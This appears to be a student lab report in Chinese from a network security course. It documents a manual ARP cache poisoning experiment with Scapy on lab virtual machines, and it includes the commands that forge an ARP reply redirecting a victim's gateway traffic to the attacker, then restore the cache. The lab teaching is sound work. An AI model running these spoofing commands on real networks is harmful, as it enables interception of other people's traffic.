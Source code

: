 # 第四章网络监听第二次实验

## 相关配置信息

- kali-attacker 

  - 172.16.111.133

  - 08:00:27:36:b5:e8

- kali-victim 
  - 172.16.111.117
  - 08:00:27:d6:f5:93

- debian-gateway 
  - 172.16.111.1
  - 08:00:27:b5:08:bc

## 实验准备

### scapy安装

![](img/1.png)

## 实验内容

### 实验2 手工单步“毒化”目标主机ARP缓存

```shell
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
arpbroadcast.show()
```

![](img/2.png)

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/3.png)

```shell
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:36:b5:e8")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![](img/4.png)

```shell
#此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
ip neigh
```

![image-20230107164126419](img/6.png)

```shell
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b5:08:bc", pdst="172.16.111.117", hwdst="08:00:27:d6:f5:93")
sendp(restorepkt1, count=100, inter=0.2)
```

![](img/5.png)

```shell
此时在img/受害者主机上准备“刷新”网关 ARP 记录。
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存
ip neigh
```

![image-20230107163420221](img/7.png)

## 参考资料

- [网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

- [参考资料](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/chap0%C3%9704)
- [wireshark](https://www.jianshu.com/p/91e0f8bea7f7)
- [Scapy中的ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)










